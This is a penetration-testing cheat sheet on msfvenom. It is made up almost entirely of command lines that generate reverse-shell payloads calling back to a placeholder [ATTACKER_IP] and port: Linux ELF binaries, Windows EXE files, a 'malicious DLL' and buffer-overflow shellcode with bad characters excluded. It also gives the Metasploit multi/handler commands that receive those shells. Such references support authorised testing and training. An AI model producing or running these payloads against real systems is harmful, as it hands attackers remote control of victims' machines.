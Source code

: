 ```yaml
---
title: MSFVENOM
summary: A Metasploit module that generates shellcodes.
description: A Metasploit module that generates shellcodes.
---
```


**[https://github.com/rapid7/metasploit-framework/blob/master/msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)**

## Basis

Payloads naming convention : \[OS\]/\[arch\]/\[payload\]

 > 
 > **<font color=red>msfvenom --list payloads</font>**</br>
 > List payloads.

## Linux Reverse Shell

### Msfvenom Payloads


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.

 > 
 > **<font color=red>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f elf ></font> reverse.elf**</br>
 > Generate a Meterpreter Reverse Shell for Linux x86.
 > 
 > **<font color=red>msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f elf ></font> reverse.elf**</br>
 > Generate a Meterpreter Reverse Shell for Linux x64.

### Metasploit Handler


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > **<font color=red>set payload linux/x86/meterpreter/reverse_tcp</font>**</br>
 > **<font color=red>exploit</font>**</br>
 > Handler for linux (efl) reverse shell.

## Windows Reverse Shell

### Msfvenom Payloads


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.


 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> msfvenom_revshell<font color=red>.dll</font>**</br>
 > Generate a malicious DLL (meterpreter reverse shell).

### Metasploit Handler


 > 
 > **<font color=red>use</font> <font color=lightblue>exploit/multi/handler</font>**</br>
 > 
 > \*\*<font color=red>set payload windows/x64/meterpreter/reverse_tcp</font> \*\*</br>
 > **<font color=red>exploit</font>**</br>
 > Handler for Windows Meterpreter.

## Windows Shellcode (Buffer Overflow)


 > 
 > **<font color=red>msfvenom -p</font> windows/shell_reverse_tcp <font color=red>LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>EXITFUNC=thread -f</font> c <font color=red>-b "</font>\\x00\x07\x08\x2e\x2f\xa0\xa1<font color=red>"</font>**</br>
 > Gen Reverse Shell in Shellcode (specify bad chars).

#### Flags

 > 
 > **<font color=red>-b "</font>\\x00<font color=red>"</font>**</br>
 > Specify bad characters (always put at least null byte).
 > 
 > **<font color=red>-f</font> c**</br>
 > File Type (here it's c file).
 > 
 > **<font color=red>-a</font> x86**</br>
 > Architecture.
